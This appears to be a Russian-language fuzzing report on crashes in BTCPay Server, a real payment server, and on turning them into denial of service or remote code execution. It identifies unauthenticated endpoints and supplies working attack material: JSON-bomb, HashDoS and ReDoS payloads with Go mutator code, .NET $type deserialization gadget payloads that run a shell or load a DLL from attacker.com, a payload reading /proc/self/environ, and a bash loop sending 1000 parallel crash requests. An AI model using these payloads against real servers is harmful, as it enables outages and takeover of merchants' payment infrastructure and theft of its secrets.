

# Анализ багов BTCPay Server — пути эскалации до DDoS / RCE

## TL;DR

Фаззер нашёл **5 крашей** (500 Internal Server Error), все связаны с `Newtonsoft.Json` десериализацией. Из них:

| # | Баг | DDoS потенциал | RCE потенциал | Реалистичность |
|---|-----|:-:|:-:|:-:|
| 1 | `$type` confusion в Pull Payments | ⚠️ Средний | 🔴 **Высокий** | Нужна проверка `TypeNameHandling` |
| 2 | Deep Nesting + AssemblyInstaller | 🔴 **Высокий** | 🔴 **Высокий** | Gadget chain уже готов |
| 3 | Regex Injection в multipart | 🔴 **Высокий** | ⚪ Низкий | ReDoS — классический вектор |
| 4 | NullRef в Payouts (`Infinity`) | ⚠️ Средний | ⚪ Низкий | Crash-loop DoS |
| 5 | Array overflow в subscriber-portal | 🔴 **Высокий** | ⚪ Низкий | Memory exhaustion |

---

## 🔑 Ключевой факт из исходного кода

Анализ исходников BTCPay Server выявил **критические архитектурные слабости**, которые делают эскалацию реалистичной:

### 1. `TypeNameHandling` наследуется, а не хардкодится в `None`

В [Extensions.cs:134](file:///Users/sergeiovchinnikov/PycharmProjects/upside-fuzzer/btcpayserver_prep/BTCPayServer/Extensions.cs#L134):
```csharp
TypeNameHandling = settings.TypeNameHandling,  // просто копирует из parent settings!
```

В [BlobSerializer.cs:31-41](file:///Users/sergeiovchinnikov/PycharmProjects/upside-fuzzer/btcpayserver_prep/BTCPayServer/Data/BlobSerializer.cs#L31-L41) — `CreateSettings()` **НЕ устанавливает** `TypeNameHandling = None` явно, полагаясь на дефолт `Newtonsoft.Json`. Дефолт — `TypeNameHandling.None`, **но** если любой плагин или `NBXplorer.Serializer.ConfigureSerializer()` поменяет его — вся цепочка наследует.

### 2. `MaxRequestBodySize = int.MaxValue` в PluginManager

[PluginManager.cs:178](file:///Users/sergeiovchinnikov/PycharmProjects/upside-fuzzer/btcpayserver_prep/BTCPayServer/Plugins/PluginManager.cs#L178):
```csharp
options.Limits.MaxRequestBodySize = int.MaxValue; // ~2GB!
```

> [!CAUTION]
> Это убивает защиту от memory exhaustion. Атакующий может слать тела запросов до 2GB на **любой** endpoint.

### 3. `[AllowAnonymous]` на PullPayment endpoints

[GreenfieldPullPaymentController.cs](file:///Users/sergeiovchinnikov/PycharmProjects/upside-fuzzer/btcpayserver_prep/BTCPayServer/Controllers/GreenField/GreenfieldPullPaymentController.cs) — 6 эндпоинтов с `[AllowAnonymous]`:
- `POST /api/v1/pull-payments/{id}/boltcards` (строка 180)
- `GET /api/v1/pull-payments/{id}` (строка 315)
- `GET /api/v1/pull-payments/{id}/payouts` (строка 336)
- `GET /api/v1/pull-payments/{id}/payouts/{payoutId}` (строка 355)
- `GET /api/v1/pull-payments/{id}/lnurl` (строка 375)
- `POST /api/v1/pull-payments/{id}/payouts` (строка 423)

> [!WARNING]
> Для DDoS и RCE на этих эндпоинтах **не нужна аутентификация**. Rate limiting на эти маршруты **не применяется** (он есть только на Login, Register, PublicInvoices, PayJoin).

---

## 📌 Путь 1: DDoS через Deep Nesting + Memory Exhaustion

### Что уже есть
Crash 5 (subscriber-portal) и Crash 2 (deep nesting) показали, что сервер крашится при:
- Массивах из 100+ элементов
- Глубоком JSON-вложении (100 уровней `{"a": {"a": ...}}`)

### Как докрутить

#### A. JSON Bomb (Quadratic Blowup)
```json
{"a": "AAAA...x100KB", "b": "AAAA...x100KB", ... (x1000 полей)}
```
Суммарный payload ~100MB. Благодаря `MaxRequestBodySize = int.MaxValue`, Kestrel пропустит.

**Вектор для фаззера**: Добавить в [mutation_engine.go](file:///Users/sergeiovchinnikov/PycharmProjects/upside-fuzzer/void/go/mutation_engine.go) мутатор `json_bomb`:
```go
// Генерирует JSON с N повторяющимися большими полями
func mutateJsonBomb(body string) string {
    field := strings.Repeat("A", 100_000)
    var sb strings.Builder
    sb.WriteString("{")
    for i := 0; i < 500; i++ {
        if i > 0 { sb.WriteString(",") }
        fmt.Fprintf(&sb, `"f%d":"%s"`, i, field)
    }
    sb.WriteString("}")
    return sb.String()
}
```

#### B. Hash Collision DoS (HashDoS)
Newtonsoft.Json использует `Dictionary<string, JToken>` внутри `JObject`. Если отправить JSON с ключами, которые дают коллизии в .NET `string.GetHashCode()`:
```json
{"AaAaAa": 1, "AaAaBB": 2, "AaBBAa": 3, ...}  // классический .NET HashDoS
```
Это превращает O(1) lookup в O(n²), делая парсинг одного запроса экспоненциально дорогим.

**Целевой endpoint**: `POST /api/v1/pull-payments/{id}/boltcards` — анонимный, принимает JSON body.

#### C. Recursive Nesting Stack Overflow
Фаззер уже нашёл crash с 100 уровнями. Нужно проверить, отключён ли `MaxDepth` в `JsonSerializerSettings`:

По исходникам — `MaxDepth` **нигде не устанавливается явно** (кроме клонирования в Extensions.cs). Дефолт Newtonsoft.Json = 64. Но:
- Мы можем слать 64 уровня * множество запросов параллельно
- Каждый уровень вложенности аллоцирует стек-фрейм ~1KB → 64KB stack per request → при 1000 параллельных запросах = 64MB стека

**Рекомендация для фаззера**: Добавить параметр `-deep-nest-levels` и генерировать вложение ровно на границе MaxDepth (63-65 уровней).

---

## 📌 Путь 2: RCE через Newtonsoft.Json `$type` Deserialization

### Что уже есть
Crash 1 и Exploit 1-2 показали, что:
- `{"$type": "System.Configuration.Install.AssemblyInstaller, ..."}` **достигает десериализатора**
- Сервер крашится с `NullReferenceException` в `JsonSerializerInternalReader.CreateObject` — это значит, что Newtonsoft **пытается** резолвить тип, но не может

### Почему это ещё не RCE

Текущее поведение (`NullReferenceException`) означает одно из:
1. `TypeNameHandling = Auto` или `Objects` — тип резолвится, но class не найден (assembly not loaded)
2. `TypeNameHandling = None` (дефолт) — `$type` игнорируется, но NullRef возникает по другой причине (null object в десериализации)

### Как проверить и докрутить

#### A. Точное определение `TypeNameHandling`

Добавить в фаззер **oracle payload** — тип, который **точно** загружен в процесс:
```json
{
    "$type": "Newtonsoft.Json.Linq.JObject, Newtonsoft.Json",
    "test": "value"
}
```
- Если ответ **200/400** (а не 500) → `TypeNameHandling != None`, тип резолвился успешно → **RCE возможен**
- Если ответ **500 NullRef** → тип всё равно не резолвился → вероятно `TypeNameHandling.None`

Ещё один oracle:
```json
{
    "$type": "System.String, mscorlib",
    "$value": "test"
}
```

#### B. Gadget Chains для .NET

Если `TypeNameHandling != None`, вот проверенные gadget chains:



Конкретные payloads для добавления в `dict.json`:
```json
{
    "$type": "System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35",
    "MethodName": "Start",
    "MethodParameters": {
        "$type": "System.Collections.ArrayList, mscorlib",
        "$values": ["/bin/sh", "-c id"]
    },
    "ObjectInstance": {
        "$type": "System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089"
    }
}
```

> [!IMPORTANT]
> BTCPay Server работает в Docker на Linux. `PresentationFramework` недоступен! Нужны **Linux-специфичные gadget chains**. Самые перспективные:

```json
{"$type":"System.Configuration.Install.AssemblyInstaller, System.Configuration.Install","Path":"http://attacker.com/evil.dll"}
```

```json
{"$type":"System.IO.FileInfo, System.IO.FileSystem","FileName":"/proc/self/environ"}
```

#### C. Через NBXplorer serializer

В [BlobSerializer.cs:26](file:///Users/sergeiovchinnikov/PycharmProjects/upside-fuzzer/btcpayserver_prep/BTCPayServer/Data/BlobSerializer.cs#L26):
```csharp
network.Serializer.ConfigureSerializer(settings);  // NBXplorer может включить TypeNameHandling!
```

Нужно проверить, что именно `NBXplorer.Serializer.ConfigureSerializer()` делает с `TypeNameHandling`. Это **чужой код** из dependency — и это слабое звено.

---

## 📌 Путь 3: DDoS через ReDoS (Regex Injection)

### Что уже есть
Crash 3 (Regex Injection): `filename="{\"$regex\":\".*\"}"` в multipart → crash.

### Как докрутить

#### A. Классический ReDoS payload
```
filename="(a+)+$aaaaaaaaaaaaaaaaaaaaaa!"
```
Или:
```
filename="(a|aa)+$" + "a" * 30
```
Это вызывает экспоненциальное backtracking в regex engine. Один запрос может держать CPU thread 10+ секунд.

#### B. Автоматизация через фаззер
Добавить в `mutation_engine.go` мутатор для multipart boundaries и filename:
```go
var redosPayloads = []string{
    `(a+)+$` + strings.Repeat("a", 25) + "!",
    `([a-zA-Z]+)*$` + strings.Repeat("a", 30) + "1",
    `(a|aa)+$` + strings.Repeat("a", 25),
    `(.*a){20}` + strings.Repeat("a", 25),
}
```

---

## 📌 Путь 4: Application-Level DDoS через crash-loop

### Что уже есть
Все 5 крашей дают 500. При наличии `[AllowAnonymous]` на 6 endpoints:

### Скрипт для проверки стабильности crash-loop
```bash
# 1000 параллельных crash-запросов
for i in $(seq 1 1000); do
  curl -s -X POST "http://target/api/v1/pull-payments/\$\{\"\\$ne\":null\}/boltcards" \
    -H "Content-Type: application/json" \
    -d '{"$type":null,"UID":"'$(python3 -c "print('A'*100000)")'"}'  &
done
wait
```

Если BTCPay Server не перехватывает `NullReferenceException` на уровне middleware (а по crash-данным он этого **не делает**) — каждый такой запрос может:
1. Убить worker thread
2. При достаточном параллелизме → исчерпать thread pool → **полный denial of service**

---

## 🛠 Рекомендации по улучшению фаззера

### 1. Новые мутаторы для `mutation_engine.go`

| Мутатор | Цель | Приоритет |
|---------|------|-----------|
| `json_bomb` | Memory exhaustion DDoS | 🔴 |
| `json_hashdos` | CPU exhaustion через hash collisions | 🔴 |
| `redos_filename` | ReDoS в multipart | 🔴 |
| `type_oracle` | Определение `TypeNameHandling` | 🔴 |
| `linux_gadget_chain` | Linux-specific .NET RCE gadgets | ⚠️ |
| `deep_nest_boundary` | Stack overflow на границе MaxDepth | ⚠️ |

### 2. Новые записи для `dict.json`

```json
{
    "restler_custom_payload": {
        "__dollar_type_oracle__": ["Newtonsoft.Json.Linq.JObject, Newtonsoft.Json", "System.String, mscorlib"],
        "__redos__": ["(a+)+$aaaaaaaaaaaaaaaaaaa!", "([a-z]+)*$zzzzzzzzzzzzzzzzz1"],
        "__hashdos_key__": ["AaAaAa", "AaAaBB", "AaBBAa", "AaBBBB", "BBAaAa", "BBAaBB", "BBBBAa", "BBBBBB"]
    }
}
```

### 3. Sequence Engine: crash amplification chain

Научить sequence engine строить **crash amplification** цепочки:
1. `POST /api/v1/stores` → создать store (producer)
2. `POST /api/v1/stores/{storeId}/pull-payments` → создать pull payment (consumer → producer)
3. `POST /api/v1/pull-payments/{ppId}/boltcards` → **crash payload** (consumer, `[AllowAnonymous]`)

Это позволит фаззеру **автоматически** строить end-to-end эксплойт: создать легитимный pull payment, а потом атаковать его анонимный endpoint.

---

## ⚖️ Итоговая оценка

> [!IMPORTANT]
> **DDoS** — реалистичен прямо сейчас. Комбинация `MaxRequestBodySize = int.MaxValue` + `[AllowAnonymous]` + отсутствие rate limiting на PullPayment endpoints = гарантированный Application-Level DoS.

> [!WARNING]
> **RCE** — требует одного из:
> 1. Подтверждения, что `TypeNameHandling != None` (oracle payload)
> 2. Нахождения пути через NBXplorer serializer, который включает `TypeNameHandling`
> 3. Нахождения другого десериализатора (BinaryFormatter, DataContractSerializer) в codebase
>
> Текущие `NullReferenceException` — **пограничный сигнал**. Они показывают, что десериализатор *обрабатывает* `$type`, но не может resolve type. Это может быть как `TypeNameHandling.None` с побочным эффектом, так и `TypeNameHandling.Auto` с недоступной assembly.
